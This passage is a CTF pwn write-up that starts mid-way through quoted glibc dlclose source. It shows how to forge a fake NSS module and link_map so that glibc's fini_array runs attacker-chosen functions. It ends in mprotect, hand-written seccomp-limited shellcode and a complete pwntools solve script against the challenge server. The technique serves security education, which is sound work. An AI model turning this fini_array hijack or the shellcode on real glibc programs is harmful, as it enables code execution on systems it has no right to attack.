		  else if (tls_free_end == GL(dl_tls_static_used))
		    {
		      GL(dl_tls_static_used) = tls_free_start;
		      tls_free_start = imap->l_tls_firstbyte_offset;
		      tls_free_end = imap->l_tls_offset + imap->l_tls_blocksize;
		    }
		  else if (tls_free_end < imap->l_tls_firstbyte_offset)
		    {
		      /* We pick the later block.  It has a chance to
			 be freed.  */
		      tls_free_start = imap->l_tls_firstbyte_offset;
		      tls_free_end = imap->l_tls_offset + imap->l_tls_blocksize;
		    }
#else
# error "Either TLS_TCB_AT_TP or TLS_DTV_AT_TP must be defined"
#endif
		}
	    }

	  /* Reset unique symbols if forced.  */
	  if (force)
	    {
	      struct unique_sym_table *tab = &ns->_ns_unique_sym_table;
	      __rtld_lock_lock_recursive (tab->lock);
	      struct unique_sym *entries = tab->entries;
	      if (entries != NULL)
		{
		  size_t idx, size = tab->size;
		  for (idx = 0; idx < size; ++idx)
		    {
		      /* Clear unique symbol entries that belong to this
			 object.  */
		      if (entries[idx].name != NULL
			  && entries[idx].map == imap)
			{
			  entries[idx].name = NULL;
			  entries[idx].hashval = 0;
			  tab->n_elements--;
			}
		    }
		}
	      __rtld_lock_unlock_recursive (tab->lock);
	    }

	  /* We can unmap all the maps at once.  We determined the
	     start address and length when we loaded the object and
	     the `munmap' call does the rest.  */
	  DL_UNMAP (imap);

	  /* Finally, unlink the data structure and free it.  */
#if DL_NNS == 1
	  /* The assert in the (imap->l_prev == NULL) case gives
	     the compiler license to warn that NS points outside
	     the dl_ns array bounds in that case (as nsid != LM_ID_BASE
	     is tantamount to nsid >= DL_NNS).  That should be impossible
	     in this configuration, so just assert about it instead.  */
	  assert (nsid == LM_ID_BASE);
	  assert (imap->l_prev != NULL);
#else
	  if (imap->l_prev == NULL)
	    {
	      assert (nsid != LM_ID_BASE);
	      ns->_ns_loaded = imap->l_next;

	      /* Update the pointer to the head of the list
		 we leave for debuggers to examine.  */
	      r->r_map = (void *) ns->_ns_loaded;
	    }
	  else
#endif
	    imap->l_prev->l_next = imap->l_next;

	  --ns->_ns_nloaded;
	  if (imap->l_next != NULL)
	    imap->l_next->l_prev = imap->l_prev;

	  /* Update the data used by _dl_find_object.  */
	  _dl_find_object_dlclose (imap);

	  free (imap->l_versions);
	  if (imap->l_origin != (char *) -1)
	    free ((char *) imap->l_origin);

	  free (imap->l_reldeps);

	  /* Print debugging message.  */
	  if (__glibc_unlikely (GLRO(dl_debug_mask) & DL_DEBUG_FILES))
	    _dl_debug_printf ("\nfile=%s [%lu];  destroying link map\n",
			      imap->l_name, imap->l_ns);

	  /* This name always is allocated.  */
	  free (imap->l_name);
	  /* Remove the list with all the names of the shared object.  */

	  struct libname_list *lnp = imap->l_libname;
	  do
	    {
	      struct libname_list *this = lnp;
	      lnp = lnp->next;
	      if (!this->dont_free)
		free (this);
	    }
	  while (lnp != NULL);

	  /* Remove the searchlists.  */
	  free (imap->l_initfini);

	  /* Remove the scope array if we allocated it.  */
	  if (imap->l_scope != imap->l_scope_mem)
	    free (imap->l_scope);

	  if (imap->l_phdr_allocated)
	    free ((void *) imap->l_phdr);

	  if (imap->l_rpath_dirs.dirs != (void *) -1)
	    free (imap->l_rpath_dirs.dirs);
	  if (imap->l_runpath_dirs.dirs != (void *) -1)
	    free (imap->l_runpath_dirs.dirs);

	  /* Clear GL(dl_initfirst) when freeing its link_map memory.  */
	  if (imap == GL(dl_initfirst))
	    GL(dl_initfirst) = NULL;

	  free (imap);
	}
    }

  __rtld_lock_unlock_recursive (GL(dl_load_write_lock));

  /* If we removed any object which uses TLS bump the generation counter.  */
  if (any_tls)
    {
      size_t newgen = GL(dl_tls_generation) + 1;
      if (__glibc_unlikely (newgen == 0))
	_dl_fatal_printf ("TLS generation counter wrapped!  Please report as described in "REPORT_BUGS_TO".\n");
      /* Can be read concurrently.  */
      atomic_store_release (&GL(dl_tls_generation), newgen);

      if (tls_free_end == GL(dl_tls_static_used))
	GL(dl_tls_static_used) = tls_free_start;
    }

  /* TLS is cleaned up for the unloaded modules.  */
  __rtld_lock_unlock_recursive (GL(dl_load_tls_lock));

  /* Notify the debugger those objects are finalized and gone.  */
  _dl_debug_change_state (r, RT_CONSISTENT);
  LIBC_PROBE (unmap_complete, 2, nsid, r);

#ifdef SHARED
  /* Auditing checkpoint: we have deleted all objects.  Also, do not notify
     auditors of the cleanup of a failed audit module loading attempt.  */
  _dl_audit_activity_nsid (nsid, LA_ACT_CONSISTENT);
#endif

  if (__builtin_expect (ns->_ns_loaded == NULL, 0)
      && nsid == GL(dl_nns) - 1)
    do
      --GL(dl_nns);
    while (GL(dl_ns)[GL(dl_nns) - 1]._ns_loaded == NULL);

  /* Recheck if we need to retry, release the lock.  */
 out:
  if (dl_close_state == rerun)
    {
      /* The map may have been deallocated.  */
      map = NULL;
      goto retry;
    }

  dl_close_state = not_pending;
}
```

- this calls `_dl_catch_exception (NULL, _dl_call_fini, imap);` if validations pass.

### _dl_call_fini()
src : https://elixir.bootlin.com/glibc/glibc-2.43/source/elf/dl-call_fini.c
```c
void
_dl_call_fini (void *closure_map)
{
  struct link_map *map = closure_map;

  /* When debugging print a message first.  */
  if (__glibc_unlikely (GLRO(dl_debug_mask) & DL_DEBUG_IMPCALLS))
    _dl_debug_printf ("\ncalling fini: %s [%lu]\n\n", map->l_name, map->l_ns);

  /* Make sure nothing happens if we are called twice.  */
  map->l_init_called = 0;

  ElfW(Dyn) *fini_array = map->l_info[DT_FINI_ARRAY];
  if (fini_array != NULL)
    {
      ElfW(Addr) *array = (ElfW(Addr) *) (map->l_addr
                                          + fini_array->d_un.d_ptr);
      size_t sz = (map->l_info[DT_FINI_ARRAYSZ]->d_un.d_val
                   / sizeof (ElfW(Addr)));

      while (sz-- > 0)
        ((fini_t) array[sz]) ();
    }

  /* Next try the old-style destructor.  */
  ElfW(Dyn) *fini = map->l_info[DT_FINI];
  if (fini != NULL)
    DL_CALL_DT_FINI (map, ((void *) map->l_addr + fini->d_un.d_ptr));
}

```
> This basically reads : 

```c
map->l_info[DT_FINI_ARRAY]
map->l_info[DT_FINI_ARRAYSZ]
```
It calculates:

`arr = map->l_addr + fini_array->d_un.d_ptr`

THEN 

> It calls entries backwards:

- arr[4](); arr[3](); arr[2](); arr[1](); arr[0]() etc.


# Path and validations required 

IF you skipped the src analysis, here is the tldr of the path and its validations and also the python snippet for it.


used ExcaliDraw [NOT AI!]

Our Fake module needs :

```c
state  = 1
handle = fake link_map
next   = NULL
```
- `dl_close` needs :

```
l_direct_opencount = 1
l_type = lt_loaded
l_init_called = 1
```

- `dl_close_worker` needs : 

```
--map->l_direct_opencount;
map->l_direct_opencount == 0
map->l_type == lt_loaded
!dl_close_state 
l_type == lt_loaded
l_direct_opencount == 0
!l_nodelete_active
l_tls_dtor_count == 0
!l_map_used
imap->l_init_called != 0
```

- `dl_call_fini` needs :

```
l_info[DT_FINI_ARRAY]   != NULL
l_info[DT_FINI_ARRAYSZ] != NULL
```

### Implementation : 

```py
def main():
    
    while True:
        p = conn()
        p.recvuntil(b"stone spans ")
        slab_size = int(p.recvuntil(b" ", drop=True), 16)
        p.recvuntil(b"glimmers at ")
        slab = int(p.recvuntil(b".", drop=True), 16)

        libc.address = slab + slab_size + 0x1000a000
        mod = (slab + 0xffff) & ~0xffff
        off = mod - slab
        if off >= 0x10 and 0xa000 - off >= 0x3000:
            break
        p.close()

    seed = 0x234
    lm = mod + 0x1000
    dyn = lm + 0x500
    arr = lm + 0x580
    name = lm + 0x680
    prev = lm + 0x700
    sc = lm + 0x800

    pl = flat({
        0x000: p32(1),              # nss module state = 1
        0x208: lm,                  # nss module handle
        0x210: 0,                   # nss module next

        lm - mod + 0x00: seed,      # l_addr
        lm - mod + 0x08: name,      # l_name
        lm - mod + 0x10: dyn,       # l_ld
        lm - mod + 0x18: 0,
        lm - mod + 0x20: prev,      # l_prev
        lm - mod + 0x28: lm,        # l_next
        lm - mod + 0x30: 0,
        lm - mod + 0x40 + 26 * 8: dyn,
        lm - mod + 0x40 + 28 * 8: dyn + 0x10,
        lm - mod + 0x350: p32(1),   # l_direct_opencount
        lm - mod + 0x354: p32(0x12),# l_type 

        prev - mod + 0x18: lm,

        dyn - mod + 0x00: 26,       # DT_FINI_ARRAY
        dyn - mod + 0x08: arr - seed,
        dyn - mod + 0x10: 28,       # DT_FINI_ARRAYSZ
        dyn - mod + 0x18: 4 * 8,
 })

```
WHERE 
```
mod  = fake NSS module
lm   = fake link_map
dyn  = fake dynamic section
arr  = fake fini_array
name = fake shared-object name 
prev = fake previous link_map 

```
- The placement of the structures is jusst trial and error on gdb but u can be sure of the offsets,

```py
   p.sendlineafter(b"> ", b"2")
    p.sendafter(b"Offset (decimal): ", p64(mod - slab))
    p.sendafter(b"Length (decimal): ", p64(len(pl)))
    p.sendafter(b"Raw data: ", pl)

    p.sendlineafter(b"> ", b"1")
    p.sendafter(b"Address in libc (hex): ", p64(libc.sym.nss_module_list + 2))
    p.sendafter(b"Value (hex, 4 bytes): ", p32((mod >> 16) & 0xffffffff))


```
> because the exploit overwrites only 4 bytes at nss_module_list + 2. If mod has low 16 bits zero, then writing the middle 4 bytes is enough to turn the NULL nss_module_list pointer into mod.

## Full Path on gdb upto the code execution


- `NULL` NSS module list : 

- After write 1 :


- Hitting NSS_Module_freeres :


- The Fake NSS MODULE and the link map in the slab :

>STATE = 1



> handle = lm




- so YEA all the fields taht we discussed are properly setup and our breakpoint at dl_call_fini should hit :



we are in the exception call, recall that `_dl_catch_exception (NULL, _dl_call_fini, imap);` is called in `_dl_close_worker()` and we are in the `_dl_call_fini()` now.

- We finally hit dl_call_fini but its not a symbol.



--------------

- AFTER THIS, VOILA!

- we can fake the arr funcs and call anything we want.
- now you would say just do setcontext of rdx into slab and then call system("/bin/sh") but the thing is! there is a seccomp.


so we are restricted to openat2, read, write which had worked locally using seccomp to setup Registers but that failed due to the shadow stack on the remote server.


## Things that didnt work :

- I tried setcontext into ORW which failed due to shadow stack and the normal stack return addr not matching.


- calling arch_pctrl also return -1 in RAX on local.

- using setcontext to jump to the shadow stack page to populate it worked locally but couldnt find the offset remotely.





- Anyways after getting arb function calling, a lot of things can be done to get code execution.

# Final Exec Path
 
- what I did was used : 



used this to setup rsi and rax.




---

> since randr(lm) uses lm as seed, we can use `lm = 0x234`


- i had used this before so it was easy to recall.



- SO now we have setup 

```
rdi = lm
rsi = 0x81
rdx = 7

```

- and if we call mprotect(lm, 0x81, 7) we can make the slab RWX and then we can write shellcode into it and call it.




- Then we can use the Shellcode to do basically do anything that the seccomp permits.

there we go, we can cat the flag :

`r3ctf{cONGRatS_You-h3LP3d_crazyMAN_pasS_C3T-WIth_sh@D0W_stack_and_ibt🎉0}
`


# Final Solve Script :

```py
#!/usr/bin/env python3
from pwn import *


context.binary = exe = ELF("./chall")
libc = ELF("./libc.so.6")
context.arch = "amd64"
context.terminal = ["alacritty", "-e", "zsh", "-c"]

def conn():
    if args.LOCAL:
        env = {"GLIBC_TUNABLES": "glibc.cpu.hwcaps=SHSTK"}
        p = process(["./ld-linux-x86-64.so.2", "--library-path", ".", "./chall"], env=env)
       
        return p
    
    return remote("challenge.ctf2026.r3kapig.com", 31343)


def main():
    
    while True:
        p = conn()
        p.recvuntil(b"stone spans ")
        slab_size = int(p.recvuntil(b" ", drop=True), 16)
        p.recvuntil(b"glimmers at ")
        slab = int(p.recvuntil(b".", drop=True), 16)
        
        libc.address = slab + slab_size + 0x1000a000
        mod = (slab + 0xffff) & ~0xffff
        off = mod - slab
        if off >= 0x10 and 0xa000 - off >= 0x3000:
            break
        p.close()
    print(f"slab: {hex(slab)}")
    print(f"libc: {hex(libc.address)}")
    print(f"mod: {hex(mod)}")
    print(f"off: {hex(off)}")
    
    seed = 0x234
    lm = mod + 0x1000
    dyn = lm + 0x500
    arr = lm + 0x580
    name = lm + 0x680
    prev = lm + 0x700
    sc = lm + 0x800
    if args.GDB:
            gdb.attach(p, gdbscript="""
                set pagination off
            """)

    shellcode = asm(f"""
        endbr64
        mov eax, 437
        mov edi, -100
        lea rsi, [rip + pflag]
        lea rdx, [rip + how]
        mov r10d, 24
        syscall
        mov edi, eax
        xor eax, eax
        lea rsi, [rip + buf]
        mov edx, 0x600
        syscall
        mov r12, rax
        mov eax, 1
        mov edi, 1
        lea rsi, [rip + buf]
        mov rdx, r12
        syscall

        mov eax, 1
        mov edi, 1
        lea rsi, [rip + mark]
        mov edx, 6
        syscall

        mov eax, 437
        mov edi, -100
        lea rsi, [rip + pkey]
        lea rdx, [rip + how]
        mov r10d, 24
        syscall
        mov edi, eax
        xor eax, eax
        lea rsi, [rip + buf]
        mov edx, 32
        syscall

        lea rbx, [rip + buf]
        mov ecx, 32
    xloop:
        xor byte ptr [rbx], 0xaa
        inc rbx
        loop xloop

        mov eax, 1
        mov edi, 1
        lea rsi, [rip + buf]
        mov edx, 32
        syscall
        mov eax, 60
        xor edi, edi
        syscall

        .balign 8
    how:
        .quad 0, 0, 0
    mark:
        .byte 0x0a, 0x4b, 0x45, 0x59, 0x58, 0x3a
    pflag:
        .asciz "/flag"
    pkey:
        .asciz "/home/ctf/key"
        .balign 8
    buf:
    """)

    pl = flat({
        0x000: p32(1),              # nss module state = 1
        0x208: lm,                  # nss module handle
        0x210: 0,                   # nss module next

        lm - mod + 0x00: seed,      # l_addr
        lm - mod + 0x08: name,      # l_name
        lm - mod + 0x10: dyn,       # l_ld
        lm - mod + 0x18: 0,
        lm - mod + 0x20: prev,      # l_prev
        lm - mod + 0x28: lm,        # l_next
        lm - mod + 0x30: 0,
        lm - mod + 0x40 + 26 * 8: dyn,
        lm - mod + 0x40 + 28 * 8: dyn + 0x10,
        lm - mod + 0x350: p32(1),   # l_direct_opencount
        lm - mod + 0x354: p32(0x12),# l_type 

        prev - mod + 0x18: lm,

        dyn - mod + 0x00: 26,       # DT_FINI_ARRAY
        dyn - mod + 0x08: arr - seed,
        dyn - mod + 0x10: 28,       # DT_FINI_ARRAYSZ
        dyn - mod + 0x18: 4 * 8,

        arr - mod + 0x00: sc,
        arr - mod + 0x08: libc.sym.mprotect,
        arr - mod + 0x10: libc.sym.rand_r,
        arr - mod + 0x18: libc.sym.__lll_lock_wake_private,

        name - mod: b"x.so\x00",
        sc - mod: shellcode,
    }, filler=b"\x00", length=0x3000)

    p.sendlineafter(b"> ", b"2")
    p.sendafter(b"Offset (decimal): ", p64(mod - slab))
    p.sendafter(b"Length (decimal): ", p64(len(pl)))
    p.sendafter(b"Raw data: ", pl)

    p.sendlineafter(b"> ", b"1")
    p.sendafter(b"Address in libc (hex): ", p64(libc.sym.nss_module_list + 2))
    p.sendafter(b"Value (hex, 4 bytes): ", p32((mod >> 16) & 0xffffffff))

    p.sendlineafter(b"> ", b"3")
    p.sendafter(b"Length: ", p32(0x28))
    p.sendafter(b"Inscription: ", b"A" * 0x20 + p64(libc.sym.__nss_module_freeres))

    p.interactive()
 


if __name__ == "__main__":
    main()


```

